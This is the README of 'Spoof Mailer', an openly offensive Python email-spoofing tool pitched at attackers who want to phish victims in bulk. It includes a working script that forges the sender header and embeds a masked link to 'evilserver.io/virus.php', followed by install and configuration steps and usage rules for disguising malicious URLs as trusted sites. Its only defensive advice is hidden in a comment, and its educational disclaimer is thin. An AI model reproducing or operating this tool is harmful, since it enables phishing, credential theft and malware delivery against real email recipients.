


 

# **Spoof Mailer v[2.0]**
<!-- [Spoof-Mailer v2.7](https://github.com/evilfeonix/Spoof-Mailer/blob/main/spoof.png) -->


**Spoof Mailer**, a python-based utilized program aid as **Email spoofing tool** that enable attackers to simply craft an email message with a malicious link and send them to a large (or small) number of victims.

 This  email message sent may appears to come from trusted source, aiming to trick their victims into revealing sensitive information, open a malicious attachment, or prompt in clicking a malicious link that will direct their victims to malicious website:-
- Either to prompt their victims into revealing sensitive information (e.g Login Credential, Credit Card Details).
- Or to automatically download a malicious file (e.g Trojans, Rootkits, Keylogger, or Backdoor) on their victim's device.


## **Email spoofing Technique**
Email spoofing is a type of cybercrime where an attacker sends an email that appears to come from a legitimate source, such as a trusted company or individual, but is actually sent from a different email address. The goal of email spoofing is to trick the recipient into divulging sensitive information, clicking on a malicious link, or opening a malicious attachment.

## **Examples of email spoofing:**
- Phishing emails that appear to come from a bank or online retailer, asking you to enter login credentials or financial information.
- Spam emails that appear to come from a popular online service, such as Amazon or PayPal, asking you to update your account information.
- Malware emails that appear to come from a colleague or friend, containing a malicious attachment or link.

## **Spoof Mailer can be done by:**
This can be done by just modifying email headers:-
1. **Sender Address Spoofing**: Forging the "`From`" address to make it appear as if the email comes from a legitimate source.
2. **Display Name Spoofing**: Using a legitimate-sounding display name to make the email appear more authentic.
In order to make it appear as if the email came from a different server or domain.

## **Sample Spoof Mailer Attack:**
_The below python script demonstrate how easy it is for an attacker to modify email message header and launch 
an email spoofing attack:_
```py
import os, sys, time, smtplib								# import smtp utilities
from email.mime.text import MIMEText						# import email utilities
from email.mime.multipart import MIMEMultipart

mal="<a href='http://evilserver.io/virus.php'>www.mysite.com</a>"
msg=MIMEMultipart("alternative")
msg["From"]="Spoof Username <spoofAddress@gmail.com>"		# Spoof Username and Email Address <--\
msg["To"]="victim1234@gmail.com"							# Victims Email Address				  |---> Email Headers
msg["Subject"]="Spoof Mailer v2.0"							# Message Subject	<----------------/
html="<center><h1>Spoof Mailer v2.0</h1></center>"			# Message Heading   <----------------_-_--> Email Message
html+=f"<p>Click this link: {mal}, to download a file</p>"	# Message   <-----------------------/
html_part=MIMEText(html, "html")
msg.attach(html_part)

Server = smtplib.SMTP("smtp.gmail.com", 587)								# Connect to Gmail Server on Port 587
Server.starttls()															# Start Connection
Server.login("attacker33@gmail.com", "password1234")						# Attacker Login to his/her Gmail Account
Server.sendmail("attacker33@gmail.com", "victim1234@gmail.com", str(msg))	# Send Message to Victims as Spoofed User
Server.quit()																# End Connection
```

## **Spoof Mailer Installation:**
- ### **First Step: _You Gotta Install Dependencies Needed_**

If you haven't already, you can install all the necessary dependencies:

```bash
apt update && apt upgrade
apt install python3
apt install git
```

- ### **Second Step: _Then You Clone the Repository_**

```bash
git clone https://github.com/evilfeonix/Spoof-Mailer.git
cd Spoof-Mailer
```
- ### **Third Step:  _You Gotta Configure the Tool (config.ini)_**

The tool requires the configuration of the `config.ini` file before use. The configuration file allows you to specify the email provider's host and port, and also email account username and password.

The default `host` and `port` configuration in `config.ini` is set up for Gmail, but you can modify these settings to test other email providers (such as Yahoo, Outlook, etc.).

### ***Example config.ini for Spoof Mailer:***

```ini
[SMTP]
port = 587
host = smtp.gmail.com
user = <SMTP Server Username>
pass = <SMTP Server Password>

;  Modify the user and pass variable's vaule by Specifying
;  your Email Account Username and also Email Account Password
```
> **Important:** Modify the `user` and `pass` variable's vaule configuration in `config.ini` before trying to run the main script `spoof.py`. And also, if you're dealing with a different email provider, replace the `host`, `port`, `user`, and `pass` with the appropriate values.

- ### **Fourd Step: _Finally!, Run the Tool_**

After configuring the config.ini file, run the tool:
```bash
python3 spoofer.py
```

# **Spoof Mailer Usage (Ruleset)**
1. If you are writing a message and you wanted to move to the next line just hit [`ENTER`], and keep writing your message, if you feel ending the message then type `#F30N1X` in a new link and hit [`ENTER`], this will finally break the input looping and forword you to the next process.

2. If you wanted to add a link to your message just type it in it standerd form (e.g `http://example.com/index.php?msg=text`) and leave the rest to us, because we dedicated a little section that going to detect the link from your message and convert it to an hyper link

3. And finally, if you wanted to mask your link with a text, which will be a little bit legit to your victim. Then you  are going to make a good use of (`>>`) symbols. Here is a quick demo: (e.g `http://fakesite.com/index.php>>www.trustedsite.com`). this is going to create an hyper link that says `www.trustedsite.com`, but when clicked, it will direct user to `http://fakesite.com/index.php`.

>**Quick Notice: Space is not required while masking URL, only this (`-`) symbol is request, which automatically represent the space**


<!-- [Spoof-Mailer v2.7](https://github.com/evilfeonix/Spoof-Mailer/blob/main/spoof1.png) -->



### **Important Note:**

> **If u are writing a message and u wonna move to the next line just hit [`ENTER`], and keep writing ur message, if u feel ending the message then type `#F30N1X` in a new link and hit [`ENTER`], this will finally break the input looping and forword u to the next process.**

>**If u wanna add a link to ur message just type it in it standerd form (e.g `http://example.com/index.php?msg=text`) and leave the rest to us, cause we dedicated a little section that gonna deal with this.**

>**And also, if u wanna mask the link with a text u will make used of (`>>`) symbols. Here is a quick demo: (e.g `http://www.fakesite.com/index.php>>login-to-this-site`)**

>**If u kinda like our project, just u know!.., feel free to bye us cup of tea, am just kidding, cause u owns the decision whether to do it or not**

>**But seriously!, if u fucking well found our repo so useful and u likely wanna contribute. We are welcoming u to our world!, just feel free to get in touch with us across our platforms**

>**We may be slow in responding due to what we are going throught, but that wont stop us!**

>**Please report any error if found within our repo.** 

<!-- Protection against email spoofing:

1. Verify the sender's email address and check for slight variations.
2. Be cautious of generic greetings and spelling mistakes.
3. Hover over links to see the URL before clicking.
4. Use two-factor authentication whenever possible.
5. Use anti-spam and anti-virus software.
6. Use DMARC (Domain-based Message Authentication, Reporting, and Conformance) to authenticate email senders.

Remember, email spoofing is a common tactic used by cybercriminals, and being vigilant and taking the necessary precautions can help protect you from falling victim to these types of attacks. -->

### **Support Us**

Support us by liking, forking, and sharing our repo and also follow us on [facebook.com](https://facebook.com/evilfeonix), [instagram.com](https://instagram.com/evilfeonix), and [youtub.com](https://youtub.com/@3V1LF30N1X) for latest hacking tips and tricks.

### **Disclaimer**

This tool is intended to educate you on Email Spoof Technique, how it's done, and how risk it could be when you become a victims of this technique. and also used this tool responsibly.

>_Note that we!, the creators of this tool are not responsible for any misuse or damage caused by it._

### **License**

[GNU General Public License v3.0](https://github.com/evilfeonix/Spoof-Mailer/blob/main/LICENSE) 